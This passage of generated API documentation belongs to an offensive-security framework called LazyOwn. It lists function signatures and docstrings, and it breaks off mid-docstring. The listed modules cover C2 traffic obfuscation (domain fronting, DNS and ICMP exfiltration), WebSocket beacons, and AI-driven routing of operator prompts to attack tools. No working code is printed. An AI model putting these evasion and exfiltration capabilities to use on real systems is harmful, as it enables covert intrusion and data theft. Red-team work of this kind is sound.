across sessions and is automatically picked up by --finetune.

Usage:
    result = bridge.route("scan 10.10.11.78")
    # ... execute tool ...
    bridge.feedback(result.result_id, good=True,  comment="correct tool")
    bridge.feedback(result.result_id, good=False, comment="wrong, should be hive_spawn")*
- `TopoSwarmBridge` (line 424) `class TopoSwarmBridge` - *Stateful bridge to the TopoSwarm local router.

Lazy-loads the model on first use so import cost is zero when TopoSwarm
is not needed (Groq/Ollama available).*

**Functions:**
- `_keyword_route` (line 202) `def _keyword_route(prompt)` - *Return a RoutedCall from keyword/pattern matching, or None if no match.*
- `_load_toposwarm_modules` (line 241) `def _load_toposwarm_modules()` - *Dynamically import from the TopoSwarm repo.*
- `get_bridge` (line 645) `def get_bridge()` - *Return the module-level TopoSwarmBridge singleton (lazy init).*
- `_hook` (line 508) `def _hook(m, i, o)`

**Methods:**
- `lazyown_command` (line 81) `def lazyown_command(self)` - *Return the LazyOwn shell command string to execute this tool call.*
- `__init__` (line 296) `def __init__(self, maxsize)`
- `register` (line 303) `def register(self, result, hidden)` - *Register a routing result as pending feedback.*
- `feedback` (line 318) `def feedback(self, result_id, good, comment, routing_head)` - *Apply feedback for a routing decision.

Returns True if the result_id was found, False otherwise.
Never raises — this is fire-and-forget.*
- `pending_count` (line 379) `def pending_count(self)`
- `stats` (line 382) `def stats(self)`
- `load_feedback_for_training` (line 389) `def load_feedback_for_training(self)` - *Load persisted feedback for --finetune.
Returns (positive_records, negative_records) as ToolBench-format dicts.*
- `__init__` (line 432) `def __init__(self)`
- `available` (line 444) `def available(self)` - *True if TopoSwarm directory exists (even if model not loaded).*
- `model_loaded` (line 449) `def model_loaded(self)`
- `_try_load` (line 452) `def _try_load(self)` - *Attempt to load model + routing head. Returns True on success.*
- `_neural_route` (line 493) `def _neural_route(self, prompt)` - *Use the neural model to route a prompt. Returns None on failure.*
- `feedback` (line 562) `def feedback(self, result_id, good, comment)` - *Optional user feedback on a routing decision.

Non-blocking — safe to call in a fire-and-forget fashion.
Positive feedback → immediate Hebbian update on routing head.
Negative feedback → stored as hard-negative for next --finetune.

Returns True if the result_id was found, False if expired/unknown.

Example:
    result = bridge.route("scan 10.10.11.78")
    # ... execute, check output ...
    bridge.feedback(result.result_id, good=True)
    bridge.feedback(result.result_id, good=False,
                    comment="should have been hive_spawn")*
- `route` (line 586) `def route(self, prompt)` - *Route an operator prompt to a LazyOwn tool call.

Tries neural routing first (if model loaded), then keyword routing.
Always returns a RoutedCall — never raises.
Each result has a `result_id` you can pass to bridge.feedback().*
- `execute_via_orchestrator` (line 613) `def execute_via_orchestrator(self, prompt, no_model)` - *Execute a prompt through the full TopoSwarm orchestrator (subprocess).
Returns the output string. Used by the autonomous loop.*

#### `traffic_morpher.py`
**Path:** `modules/traffic_morpher.py`
**File Doc:** *C2 traffic obfuscation: domain fronting, protocol mimicking, and traffic shaping.  Provides multiple strategies for disguising C2 traffic to blend in with legitimate network traffic. Supports Cloudflare Workers proxy, domain fronting against CDN providers, HTTPS certificate pinning, and traffic morphing for popular protocols (HTTP/2, WebSocket, DNS, ICMP).*

**Classes:**
- `TrafficMorpher` (line 18) `class TrafficMorpher` - *Transform C2 traffic patterns to mimic legitimate protocols.*

**Methods:**
- `__init__` (line 77) `def __init__(self)`
- `get_random_http_headers` (line 81) `def get_random_http_headers(self)` - *Return a randomized set of HTTP headers mimicking a real browser.

Returns:
    Dictionary of HTTP headers.*
- `get_cdn_fronting_hosts` (line 91) `def get_cdn_fronting_hosts(self, provider, count)` - *Return CDN domains suitable for domain fronting.

Args:
    provider: CDN provider name (cloudflare, azure, aws, google, fastly).
    count: Number of domain suggestions to return.

Returns:
    List of high-reputation CDN domain names.*
- `generate_traffic_padding` (line 108) `def generate_traffic_padding(self, min_bytes, max_bytes)` - *Generate random padding bytes to normalize packet sizes.

Args:
    min_bytes: Minimum padding size.
    max_bytes: Maximum padding size.

Returns:
    Random bytes for traffic padding.*
- `generate_jitter` (line 125) `def generate_jitter(self, base_delay, jitter_pct)` - *Calculate a sleep delay with jitter.

Args:
    base_delay: Base sleep time in seconds.
    jitter_pct: Percentage of jitter to apply (0.0 - 1.0).

Returns:
    Adjusted sleep time with random jitter applied.*
- `generate_dns_tunnel_payload` (line 138) `def generate_dns_tunnel_payload(self, data, domain)` - *Encode data as DNS query subdomains for tunneling.

Args:
    data: Raw data to tunnel.
    domain: Base domain for DNS queries.
    max_subdomain_len: Maximum subdomain label length.

Returns:
    List of DNS query names.*
- `generate_icmp_exfil_payload` (line 164) `def generate_icmp_exfil_payload(self, data, chunk_size)` - *Generate ICMP echo payloads for data exfiltration.

Args:
    data: Data to exfiltrate.
    chunk_size: Bytes per ICMP packet.

Returns:
    List of ICMP payload byte sequences.*
- `generate_websocket_masking` (line 190) `def generate_websocket_masking(self, data)` - *Apply WebSocket frame masking with random key.

Args:
    data: Raw data to mask as WebSocket frame.

Returns:
    Masked WebSocket frame bytes.*
- `generate_cloudflare_worker_proxy_config` (line 205) `def generate_cloudflare_worker_proxy_config(self, c2_host, c2_port, auth_token)` - *Generate a Cloudflare Worker script that proxies C2 traffic.

The worker acts as a reverse proxy, forwarding traffic from the
CDN edge to the real C2 server while rewriting Host headers.

Args:
    c2_host: Real C2 server hostname or IP.
    c2_port: Real C2 server port.
    auth_token: Optional pre-shared authentication token.

Returns:
    Complete Cloudflare Worker JavaScript code.*
- `generate_beacon_profile` (line 270) `def generate_beacon_profile(self, name, protocol, jitter_pct, user_agent)` - *Generate a complete C2 beacon profile configuration.

Args:
    name: Profile name.
    protocol: Beacon protocol (https, dns, icmp, websocket).
    jitter_pct: Jitter percentage for beacon timing.
    user_agent: Custom user agent string.

Returns:
    Beacon profile dictionary.*

#### `traffic_recorder.py`
**Path:** `modules/traffic_recorder.py`
**File Doc:** *HTTP traffic recorder with file-tree storage and SQLite index.  Ports the LAZY ``traffic`` subsystem: every agent-driven HTTP exchange is persisted to a human-browsable directory with a sidecar SQLite index for paged queries. No redaction is applied; scoping is enforced by the caller before recording.*

**Classes:**
- `RecorderConfig` (line 24) `class RecorderConfig` - *Centralized constants for recorder behavior.*
- `Exchange` (line 80) `class Exchange` - *Single recorded HTTP exchange.*
- `TrafficRecorder` (line 91) `class TrafficRecorder` - *Append-only recorder backed by files plus SQLite index.*

**Functions:**
- `url_template` (line 69) `def url_template(url)` - *Collapse numeric path segments so similar URLs group together.*

**Methods:**
- `__init__` (line 94) `def __init__(self, base_dir)` - *Create storage directories and initialize the index.*
- `_migrate_fts` (line 115) `def _migrate_fts(self, conn)` - *Upgrade a pre-trigram ``bodies_fts`` table in place.

Older sessions shipped the default ``unicode61`` tokenizer, which
cannot find mid-token strings. The table is dropped and recreated
with the trigram tokenizer; ``search_body`` backfills it lazily,
so the migration stays cheap even on large stores.

Args:
    conn: Open index connection (inside the ``__init__`` context).*
- `_connect` (line 132) `def _connect(self)` - *Open a new index connection.*
- `record` (line 138) `def record(self, method, url, status, req_body, resp_body, content_type, req_headers, resp_headers, host, port, scheme, task, note)` - *Persist one exchange and return its descriptor.

Args:
    method: HTTP method.
    url: Full request URL.
    status: Response status code (0 when the exchange failed).
    req_body: Request body bytes (truncated to the cap).
    resp_body: Response body bytes (truncated to the cap).
    content_type: Response content type.
    req_headers: Request header mapping.
    resp_headers: Response header mapping.
    host: Host override (MITM knows it before parsing the URL).
    port: Port override.
    scheme: Scheme override (https for MITM'd CONNECT tunnels).
    task: Optional task tag for loop ingestion.
    note: Optional failure note.

Returns:
    Exchange descriptor.*
- `since` (line 230) `def since(self, rowid, limit)` - *Page exchanges newer than a rowid watermark for loop ingestion.

Args:
    rowid: Last ingested SQLite rowid (0 starts from the beginning).
    limit: Max rows per page.

Returns:
    Row dicts including the ``rowid`` cursor.*
- `latest_rowid` (line 247) `def latest_rowid(self)` - *Return the current max rowid (0 when the index is empty).*
- `query` (line 253) `def query(self, host, status, limit, offset, task)` - *Page exchanges with optional host, status and task filters.*
- `get_body` (line 275) `def get_body(self, exchange_id)` - *Load the stored body document for one exchange.*
- `read_body` (line 284) `def read_body(self, exchange_id, part, offset, length)` - *Read one body in ranges like a blob store.

Args:
    exchange_id: Exchange whose body is read.
    part: ``resp`` (default) or ``req``.
    offset: Byte offset.
    length: Max bytes (clamped to 1 MiB).

Returns:
    Dict with data, offset, length, total and eof.

Raises:
    ValueError: Unknown part.
    KeyError: Unknown exchange body.*
- `count` (line 317) `def count(self)` - *Return the total number of recorded exchanges.*
- `_index_fts` (line 323) `def _index_fts(self, exchange_id, req, resp)` - *Index request and response text for full-text search.

Failures are ignored: search falls back to a bounded LIKE scan
when FTS5 is unavailable in the local sqlite build.*
- `backfill_fts` (line 343) `def backfill_fts(self, batch)` - *Index stored bodies missing from the FTS table.

Args:
    batch: Max bodies indexed per call.

Returns:
    Number of newly indexed exchanges.*
- `_fts_query` (line 375) `def _fts_query(query)` - *Quote a user phrase so FTS5 metacharacters stay literal.*
- `search_body` (line 382) `def search_body(self, query, limit)` - *Full-text search request/response bodies.

Uses the FTS5 index when available and falls back to a bounded
LIKE scan over the most recent bodies otherwise.

Args:
    query: Phrase to search for.
    limit: Max hits.

Returns:
    Hits with exchange_id, url, status, host and a snippet.*
- `_scan_bodies` (line 422) `def _scan_bodies(self, needle, limit)` - *Bounded LIKE fallback over the most recent stored bodies.*
- `export_archive` (line 451) `def export_archive(self, path, limit, task)` - *Export the index plus bodies into a portable zip archive.

Args:
    path: Destination zip path.
    limit: Max exchanges (0 exports all).
    task: Optional task filter for per-task archives.

Returns:
    Dict with exported/bodies counts and the archive path.*
- `import_archive` (line 493) `def import_archive(self, path)` - *Merge an archive exported by :meth:`export_archive`.

Args:
    path: Source zip path.

Returns:
    Dict with imported/bodies counts and the archive path.

Raises:
    FileNotFoundError: Archive missing.*
- `import_inbox` (line 554) `def import_inbox(self, inbox_dir)` - *Import every zip dropped in the inbox, moving handled files away.

Args:
    inbox_dir: Scan root (defaults to ``<base>/inbox``).

Returns:
    Dict with imported count and handled file names.*
- `gc` (line 587) `def gc(self, older_than_sec)` - *Delete exchanges older than a cut-off with their bodies and index rows.

Args:
    older_than_sec: Age threshold; 0 disables the sweep.

Returns:
    Dict with removed count.*

#### `ttp_coverage.py`
**Path:** `modules/ttp_coverage.py`
**File Doc:** *TTP coverage matrix — real-time MITRE ATT&CK technique tracking.  Aggregates executed techniques from all operations, playbooks, and atomic tests into a single matrix view.  Statuses: tested   — technique was executed and produced output failed   — technique was attempted but produced no useful output blocked  — technique is gated by unmet facts (planner couldn't run it) queued   — technique is scheduled but not yet executed ready    — all required facts are present, technique is runnable untested — technique is available but never attempted*

**Classes:**
- `TTPRow` (line 55) `class TTPRow`
- `TTPCoverage` (line 65) `class TTPCoverage` - *Aggregate TTP execution data across all operations.*

**Functions:**
- `get_coverage` (line 260) `def get_coverage()` - *Return a fresh :class:`TTPCoverage`.*

**Methods:**
- `__init__` (line 68) `def __init__(self)`
- `rebuild_from_operations` (line 76) `def rebuild_from_operations(self)` - *Re-walk every operation on disk and refresh the matrix.

Returns the number of techniques covered.*
- `add` (line 125) `def add(self, technique_id, name, tactic, status, operation_id)`
- `compute_ready` (line 149) `def compute_ready(self, available_facts)` - *Return the techniques that could run given available facts.

A technique is ``ready`` if no blocking fact is missing. The
rule used here is conservative — the technique is considered
ready if it is ``untested`` and at least one fact matches the
technique's tactic (e.g. ``service.found`` is enough for
``T1021.*``). Operators should refine this with their own
ability dependency data when available.*
- `_blocking_facts` (line 168) `def _blocking_facts(self, tactic)`
- `matrix` (line 190) `def matrix(self)` - *Render a coloured-by-tactic table of all techniques.*
- `status_by_id` (line 231) `def status_by_id(self, technique_id)`
- `to_dict` (line 234) `def to_dict(self)`
- `_save_state` (line 241) `def _save_state(self)`
- `_load_state` (line 248) `def _load_state(self)`

#### `unified_bridge.py`
**Path:** `modules/unified_bridge.py`
**File Doc:** *UnifiedBridge — single API over all LazyOwn bridges and routing engines.  Merges three previously isolated bridges into one cohesive interface: - lazyown_bridge  : command catalog + phase/service-aware selection - toposwarm_bridge: neural/keyword routing from natural language - mcp_agent_bridge: AI agent delegation (Groq/Ollama)  Plus integration with EventBus (all routing decisions published) and StateManager (context from current campaign state).  Design (SOLID) -------------- - Single Responsibility : route prompts to tools; delegate to agents. - Open/Closed           : add backends via register_route_backend(). - Liskov                : all backends return RouteResult with same shape. - Interface Segregation : route() and delegate() are the only two operations. - Dependency Inversion  : depends on RouteBackend abstraction, not concrete bridges.*

**Classes:**
- `RouteResult` (line 46) `class RouteResult`
- `DelegateResult` (line 59) `class DelegateResult`
- `RouteBackend` (line 67) `class RouteBackend(ABC)`
- `KeywordBackend` (line 75) `class KeywordBackend(RouteBackend)` - *Regex/keyword-based routing (~80% accuracy on common pentesting phrases).*
- `LazyownBridgeBackend` (line 123) `class LazyownBridgeBackend(RouteBackend)` - *Phase-aware command selection using the lazyown_bridge catalog.*
- `TopoSwarmBackend` (line 161) `class TopoSwarmBackend(RouteBackend)` - *Neural routing via the TopoSwarm 2M-parameter model.*
- `UnifiedBridge` (line 195) `class UnifiedBridge` - *Single entry point for all LazyOwn routing and delegation.

Usage::

    bridge = UnifiedBridge.get()
    result = bridge.route("scan open ports on 10.0.0.1")
    if result.command:
        executor.run(f"{result.command} {result.args}")
    elif result.tool:
        # call MCP tool
        pass

    # Delegate to internal AI agents
    delegate = bridge.delegate("Analyze CVE-2023-1234", backend="groq")*

**Functions:**
- `route_prompt` (line 483) `def route_prompt(prompt, context)` - *Convenience: route a prompt without instantiating UnifiedBridge.*
- `delegate_task` (line 488) `def delegate_task(goal, backend)` - *Convenience: delegate a task to an AI agent.*

**Methods:**
- `available` (line 69) `def available(self)`
- `route` (line 72) `def route(self, prompt, context)`
- `available` (line 102) `def available(self)`
- `route` (line 105) `def route(self, prompt, context)`
- `available` (line 126) `def available(self)`
- `route` (line 134) `def route(self, prompt, context)`
- `available` (line 164) `def available(self)`
- `route` (line 173) `def route(self, prompt, context)`
- `__init__` (line 214) `def __init__(self)`
- `_init_backends` (line 219) `def _init_backends(self)`
- `get` (line 225) `def get(cls)`
- `set_publish_callback` (line 230) `def set_publish_callback(self, cb)`
- `_publish` (line 233) `def _publish(self, category, event_type, payload)`
- `route` (line 253) `def route(self, prompt, context)` - *Route a natural-language prompt to the best LazyOwn tool.

Tries backends in priority order: TopoSwarm → lazyown_bridge → keyword.
Returns the first successful (non-empty) route result.

Args:
    prompt: Natural-language description of the desired action.
    context: Optional dict with phase, services, target, etc.

Returns:
    RouteResult with tool name, command, args, confidence, and backend.*
- `delegate` (line 300) `def delegate(self, goal, backend, timeout, max_iterations)` - *Delegate a complex task to an internal AI agent.

Drives the public agent-bridge API: ``start_agent`` spawns the
worker thread and this method polls ``get_agent_status`` until a
terminal status or the timeout.

Args:
    goal: Task description for the agent.
    backend: AI backend ("groq" or "ollama").
    timeout: Maximum seconds to wait for completion.
    max_iterations: Tool-calling budget handed to the agent.

Returns:
    DelegateResult with agent_id, status, and result.*
- `_await_agent` (line 355) `def _await_agent(self, get_status, agent_id, timeout)` - *Poll an agent until it finishes or the timeout expires.

Args:
    get_status: The bridge's status accessor to poll.
    agent_id: Agent identifier returned by ``start_agent``.
    timeout: Maximum seconds to wait.

Returns:
    The last status dict, ``{"status": "timeout"}`` on expiry, or
    an ``{"error": ...}`` dict when the agent is unknown.*
- `_run_agent_command` (line 384) `def _run_agent_command(self, command)` - *Execute one LazyOwn shell command non-interactively via a PTY.

Mirrors the MCP agent runner: the pseudo-terminal keeps the CLI's
terminal-size probe happy while the command stream is piped to
stdin and a trailing ``exit`` line makes the shell quit.

Args:
    command: LazyOwn shell command to execute.

Returns:
    Captured terminal output with ANSI escapes stripped.*
- `list_backends` (line 461) `def list_backends(self)`
- `_detect_phase` (line 464) `def _detect_phase(self)`
- `_get_active_target` (line 473) `def _get_active_target(self)`

#### `unified_dashboard.py`
**Path:** `modules/unified_dashboard.py`
**File Doc:** *Unified campaign dashboard — combines all state sources into one view.  The existing :class:`modules.dashboard_engine.DashboardEngine` builds a snapshot from the world model, exploit recommender, auto-pivot, and evasion engine.  However, it does NOT include:  - Hive Mind status (active drones, memory vectors) - Policy Engine status (active rules, last decision) - Autonomous Daemon status (pending objectives, current phase) - Live Surface graph (real-time network topology) - GraphAdvisor pivot candidates  This module fills that gap by composing all data sources into a single unified snapshot suitable for CLI rendering, JSON export, or TUI consumption.  Design (SOLID) -------------- - Single Responsibility : aggregate + render campaign state only. - Open/Closed           : new data sources added as ``_collect_*`` methods. - Dependency Inversion  : depends on ``DashboardEngine`` interface, not concrete implementations of hive/policy/daemon.*

**Classes:**
- `UnifiedDashboard` (line 37) `class UnifiedDashboard` - *Aggregates world model, hive, policy, daemon, and graph state.

Attributes:
    sessions_dir: Path to the sessions directory.*

**Functions:**
- `get_unified_dashboard` (line 259) `def get_unified_dashboard(sessions_dir)` - *Return a module-level :class:`UnifiedDashboard` singleton.*

**Methods:**
- `__init__` (line 44) `def __init__(self, sessions_dir)`
- `_get_dashboard` (line 49) `def _get_dashboard(self)`
- `_get_graph` (line 65) `def _get_graph(self)`
- `build_unified_snapshot` (line 76) `def build_unified_snapshot(self)` - *Build a complete dashboard snapshot from all data sources.

Returns:
    Dict with keys: world_model, hive_status, policy_status,
    daemon_status, live_graph, graph_advice, dashboard, timestamp.*
- `_collect_world_model` (line 95) `def _collect_world_model(self)`
- `_collect_hive_status` (line 104) `def _collect_hive_status(self)`
- `_collect_policy_status` (line 114) `def _collect_policy_status(self)`
- `_collect_daemon_status` (line 124) `def _collect_daemon_status(self)`
- `_collect_live_graph` (line 133) `def _collect_live_graph(self)`
- `_collect_graph_advice` (line 145) `def _collect_graph_advice(self)`
- `_collect_dashboard` (line 163) `def _collect_dashboard(self)`
- `render_unified` (line 173) `def render_unified(self)` - *Render the unified dashboard as a text string for CLI/TUI.

Returns:
    A multi-line ASCII dashboard string.*
- `export_json` (line 254) `def export_json(self)` - *Export the unified snapshot as a JSON string.*

#### `venator.py`
**Path:** `modules/venator.py`

**Functions:**
- `getUUID` (line 38) `def getUUID()`
- `getSystemInfo` (line 66) `def getSystemInfo(output_file)`
- `getVTResult` (line 83) `def getVTResult(fileHash)`
- `getHash` (line 112) `def getHash(file, ignoreVFlag)`
- `checkSignature` (line 132) `def checkSignature(file, bundle)`
- `datetime_handler` (line 210) `def datetime_handler(x)`
- `parseAgentsDaemons` (line 215) `def parseAgentsDaemons(item, path)`
- `getLaunchAgents` (line 287) `def getLaunchAgents(path, output_file, ignoreVFlag)`
- `getLaunchDaemons` (line 302) `def getLaunchDaemons(path, output_file, ignoreVFlag)`
- `getUsers` (line 317) `def getUsers(output_file)`
- `getSafariExtensions` (line 338) `def getSafariExtensions(path, output_file)`
- `getChromeExtensions` (line 357) `def getChromeExtensions(path, output_file)`
- `getChromeDownloads` (line 388) `def getChromeDownloads(chromeHistoryDbPath, output_file)`
- `getFirefoxExtensions` (line 442) `def getFirefoxExtensions(path, output_file)`
- `getInstallHistory` (line 477) `def getInstallHistory(output_file)`
- `getCronJobs` (line 494) `def getCronJobs(users, output_file)`
- `getEmond` (line 513) `def getEmond(output_file)`
- `getKext` (line 530) `def getKext(sipStatus, kextPath, output_file, ignoreVFlag)`
- `getEnv` (line 577) `def getEnv(output_file)`
- `getPeriodicScripts` (line 592) `def getPeriodicScripts(output_file)`
- `getConnections` (line 609) `def getConnections(output_file)`
- `SIPStatus` (line 637) `def SIPStatus(output_file)`
- `GatekeeperStatus` (line 651) `def GatekeeperStatus(output_file)`
- `parseApp` (line 663) `def parseApp(app, ignoreVFlag)`
- `getLoginItems` (line 706) `def getLoginItems(path, output_file, ignoreVFlag)`
- `getApps` (line 741) `def getApps(path, output_file, ignoreVFlag)`
- `getEventTaps` (line 763) `def getEventTaps(output_file)`
- `getBashHistory` (line 786) `def getBashHistory(output_file, users)`
- `getShellStartupScripts` (line 804) `def getShellStartupScripts(users, output_file)`
- `hmac_sha256` (line 842) `def hmac_sha256(key, data)`
- `amzn_sig` (line 846) `def amzn_sig(secret_access_key, data, aws_region, aws_service)`
- `amzn_canonical_req` (line 856) `def amzn_canonical_req(filename_path, headers_list)`
- `s3_upload` (line 866) `def s3_upload(data, content_type, filename_path, access_key_id, secret_access_key, s3_bucket, aws_region)`
- `io_key` (line 49) `def io_key(keyname)`

#### `vuln_bot_cli.py`
**Path:** `modules/vuln_bot_cli.py`
**File Doc:** *main.py*

**Functions:**
- `parse_args` (line 10) `def parse_args()`
- `main` (line 22) `def main()`

#### `vulnbot.py`
**Path:** `modules/vulnbot.py`
**File Doc:** *vulnbot.py*

**Classes:**
- `VulnBotCLI` (line 29) `class VulnBotCLI`

**Functions:**
- `list_files` (line 86) `def list_files(directory)` - *Lista archivos en un directorio*
- `read_file` (line 90) `def read_file(path)` - *Lee contenido de un archivo*
- `edit_file` (line 95) `def edit_file(path, content, old_text)` - *Crea o edita un archivo*
- `generate` (line 139) `def generate()`
- `generate` (line 207) `def generate()`

**Methods:**
- `__init__` (line 30) `def __init__(self, provider, mode, debug, script_path)`
- `_load_model` (line 46) `def _load_model(self)` - *Instantiate the LLM backend mapped to ``self.provider``.

Returns:
    A configured :class:`AIModel` instance.

Raises:
    LLMBackendNotSupportedError: When ``self.provider`` does not
        map to a known backend.
    LLMBackendUnavailableError: When the resolved backend cannot
        be constructed from the current environment.*
- `_setup_agent` (line 61) `def _setup_agent(self, script_path)` - *Configura el agente con herramientas dinámicas*
- `_register_file_tools` (line 83) `def _register_file_tools(self)` - *Registra herramientas de manejo de archivos*
- `_load_external_tools` (line 109) `def _load_external_tools(self, script_path)` - *Carga herramientas desde script externo*
- `_stream_agent_response` (line 136) `def _stream_agent_response(self, prompt)` - *Versión streaming para web (simplificada)*
- `load_knowledge_base` (line 145) `def load_knowledge_base(self)`
- `save_knowledge_base` (line 151) `def save_knowledge_base(self, kb)`
- `get_relevant_knowledge` (line 155) `def get_relevant_knowledge(self, prompt)`
- `create_complex_prompt` (line 160) `def create_complex_prompt(self, base_prompt, history, knowledge)`
- `read_file_content` (line 176) `def read_file_content(self, file_path)`
- `load_event_config` (line 182) `def load_event_config(self)`
- `process_with_context` (line 190) `def process_with_context(self, file_path, event)`
- `stream_response` (line 206) `def stream_response(self, prompt)`
- `add_to_knowledge_base` (line 212) `def add_to_knowledge_base(self, prompt, response)`

#### `websocket_beacon.py`
**Path:** `modules/websocket_beacon.py`
**File Doc:** *WebSocket beacon transport for modern C2 channels.  Provides WebSocket-based beacon implementation and server-side handler that integrates with the LazyOwn C2 framework via Socket.IO events.*

**Classes:**
- `WebSocketBeacon` (line 46) `class WebSocketBeacon` - *WebSocket-based beacon for C2 communication.

Connects to a WebSocket server with optional TLS and AES encryption.
Supports jitter, sleep intervals, and task queuing.

Args:
    server_url: WebSocket server URL (ws:// or wss://).
    beacon_id: Unique beacon identifier. Auto-generated if None.
    encryption_key: Optional AES encryption key (Fernet format).
    sleep_seconds: Base sleep time between check-ins.
    jitter_percent: Random jitter percentage added to sleep time.
    ssl_verify: Whether to verify TLS certificates.
    proxy: Optional HTTP/SOCKS proxy URL.*
- `WebSocketC2Handler` (line 274) `class WebSocketC2Handler` - *Server-side WebSocket handler for receiving beacon connections.

Integrates with the LazyOwn C2 framework via callback hooks.

Args:
    host: Bind address.
    port: Bind port.
    ssl_context: Optional SSL context for TLS.
    beacon_callback: Callable invoked when a beacon connects.
    task_callback: Callable invoked when beacon requests tasks.
    result_callback: Callable invoked when beacon sends results.*

**Methods:**
- `__init__` (line 62) `def __init__(self, server_url, beacon_id, encryption_key, sleep_seconds, jitter_percent, ssl_verify, proxy)`
- `_encrypt` (line 91) `def _encrypt(self, data)` - *Encrypt data using Fernet if available.*
- `_decrypt` (line 97) `def _decrypt(self, data)` - *Decrypt data using Fernet if available.*
- `_build_message` (line 103) `def _build_message(self, msg_type, payload)` - *Build a JSON message with encryption.*
- `_jittered_sleep` (line 114) `def _jittered_sleep(self)` - *Sleep with jitter to avoid predictable check-in patterns.*
- `connect` (line 122) `def connect(self)` - *Establish WebSocket connection to the C2 server.

Returns:
    bool: True if connected successfully.*
- `check_in` (line 157) `def check_in(self)` - *Send heartbeat and retrieve pending tasks.

Returns:
    Task dict if tasks are pending, None otherwise.*
- `send_result` (line 191) `def send_result(self, task_id, output, exit_code)` - *Send command execution result back to C2.

Args:
    task_id: ID of the task being reported.
    output: Command output.
    exit_code: Exit code of the command.*
- `run` (line 214) `def run(self, command_handler)` - *Main beacon loop with check-in and command execution.

Args:
    command_handler: Callable that takes a command string and returns
                     (output, exit_code). Uses os.popen if None.*
- `shutdown` (line 263) `def shutdown(self)` - *Gracefully shutdown the beacon.*
- `__init__` (line 288) `def __init__(self, host, port, ssl_context, beacon_callback, task_callback, result_callback)`
- `_handle_connection` (line 310) `def _handle_connection(self, websocket, path)` - *Handle an incoming WebSocket connection from a beacon.

Args:
    websocket: The connected WebSocket.
    path: Connection path.*
- `start` (line 382) `def start(self)` - *Start the WebSocket C2 server.*
- `stop` (line 392) `def stop(self)` - *Stop the WebSocket C2 server.*
- `start_in_thread` (line 399) `def start_in_thread(self)` - *Start the WebSocket C2 server in a background thread.

Returns:
    The daemon thread running the server.*
- `_run_loop` (line 410) `def _run_loop(self, loop)` - *Run the asyncio event loop in a thread.*
- `send_task` (line 416) `def send_task(self, beacon_id, command)` - *Send a command task to a specific beacon.

Args:
    beacon_id: Target beacon ID.
    command: Command to execute.

Returns:
    bool: True if task was queued for delivery.*
- `list_beacons` (line 447) `def list_beacons(self)` - *List all connected beacons.

Returns:
    List of beacon info dicts.*
- `remove_stale_beacons` (line 464) `def remove_stale_beacons(self, timeout)` - *Remove beacons that have not checked in within the timeout.

Args:
    timeout: Inactivity timeout in seconds.

Returns:
    List of removed beacon IDs.*

#### `workspace.py`
**Path:** `modules/workspace.py`
**File Doc:** *Confined workspace file browser for operators and loop agents.  All paths resolve inside ``sessions/workspace``; traversal attempts (``..``, absolute paths, symlink escapes) raise before any IO. The loop can route ``lazy_workspace read <path>`` steps through the same confined API, so agents inspect task artefacts without leaving the sandbox.*

**Functions:**
- `root` (line 21) `def root()` - *Return (and create) the workspace root directory.*
- `resolve` (line 27) `def resolve(rel)` - *Resolve a workspace-relative path, refusing escapes.

Args:
    rel: Relative path inside the workspace.

Returns:
    Absolute confined path.

Raises:
    PermissionError: Path escapes the workspace.*
- `list_entries` (line 46) `def list_entries(rel)` - *List one directory with names, kinds and sizes.*
- `read_text` (line 63) `def read_text(rel, limit)` - *Read one file, truncated to the byte limit.*
- `write_text` (line 72) `def write_text(rel, content)` - *Write one file, creating parents; returns the character count.*
- `make_dir` (line 83) `def make_dir(rel)` - *Create one directory (parents included).*
- `remove` (line 90) `def remove(rel)` - *Delete a file or directory tree inside the workspace.*

#### `world_model.py`
**Path:** `modules/world_model.py`
**File Doc:** *modules/world_model.py ======================= Unified engagement world model for LazyOwn autonomous operations.  Tracks the state of every discovered host through a formal state machine, aggregates credentials and vulnerabilities, derives the current engagement phase, and produces a compact context string for LLM consumption.  Design principles ----------------- - Single Responsibility : each class owns exactly one domain concept - Open/Closed           : new host states or finding types via extension only - Dependency Inversion  : depends on Finding abstraction, not ObsParser directly - Thread-safe           : RLock guards all mutations; safe for Flask + MCP threads - Persistent            : auto-saves to sessions/world_model.json on every mutation  Usage ----- from modules.world_model import WorldModel, HostState  wm = WorldModel() wm.add_host("10.10.11.78") wm.advance_host(  "10.10.11.78", HostState.SCANNED) wm.add_service(   "10.10.11.78", port=80, name="http", version="Apache 2.4.49") wm.add_credential("administrator:P@ssw0rd!", host="10.10.11.78")  print(wm.get_phase().value)       # -> "exploitation" print(wm.to_context_string())     # compact summary for LLM prompt*

**Classes:**
- `HostState` (line 151) `class HostState(StrEnum)` - *Ordered engagement states for a single host.*
- `EngagementPhase` (line 167) `class EngagementPhase(StrEnum)` - *Derived from the aggregate host state across all targets.*
- `ServiceInfo` (line 179) `class ServiceInfo`
- `CredentialEntry` (line 188) `class CredentialEntry`
- `VulnerabilityEntry` (line 197) `class VulnerabilityEntry`
- `EmailEntry` (line 206) `class EmailEntry`
- `DomainEntry` (line 214) `class DomainEntry`
- `NetworkRelation` (line 222) `class NetworkRelation` - *A directed, typed relationship between two network nodes.

Node naming convention:
    host:<ip>          — a discovered host
    user:<username>    — a user account
    service:<name>     — a running service (e.g. service:smb)
    cred:<hash>        — a captured credential (first 12 chars)*
- `NetworkGraph` (line 244) `class NetworkGraph` - *Lightweight directed graph for network topology and lateral movement reasoning.

Tracks typed relationships between hosts, users, services, and credentials
and exposes degree-centrality analysis to identify pivot points without
requiring an external graph library.

Design
------
- Single Responsibility : graph structure + centrality only; no I/O
- Open/Closed           : new relation types added as data, not code
- Thread-safe           : caller (WorldModel) holds its own RLock

Centrality algorithm
--------------------
Normalized degree centrality:
    C(v) = (in_degree(v) + out_degree(v)) / (2 * (N - 1))

A node with high centrality is reachable by and can reach many others —
an ideal pivot candidate for lateral movement.*
- `HostEntry` (line 364) `class HostEntry`
- `_PhaseDeriver` (line 416) `class _PhaseDeriver` - *Derives the current EngagementPhase from the aggregate host states.
Keeps the derivation logic isolated so it can be swapped or extended.*
- `WorldModel` (line 541) `class WorldModel` - *Thread-safe, persistent engagement world model.

Maintains hosts, credentials, vulnerabilities, and the derived phase.
Persists state to sessions/world_model.json on every mutation.*

**Functions:**
- `_derive_crypto_key` (line 58) `def _derive_crypto_key(password, salt)` - *Derive a Fernet key from a password and salt (PBKDF2HMAC/SHA256).*
- `_master_password` (line 67) `def _master_password()` - *Return the shared master password for state-at-rest protection.*
- `read_state_dict` (line 72) `def read_state_dict(path)` - *Read a world-model state dict, transparently decrypting at rest.

Priority:
    1. Plain ``world_model.json``.
